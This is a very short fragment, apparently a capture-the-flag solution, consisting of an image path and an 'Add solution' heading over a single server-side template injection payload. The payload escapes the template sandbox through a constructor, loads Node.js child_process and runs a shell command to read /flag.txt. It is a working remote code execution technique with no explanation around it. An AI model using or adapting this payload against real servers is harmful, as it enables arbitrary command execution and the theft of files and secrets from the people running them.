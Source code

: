 Add solution

```
upload {{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag.txt')")()}}
```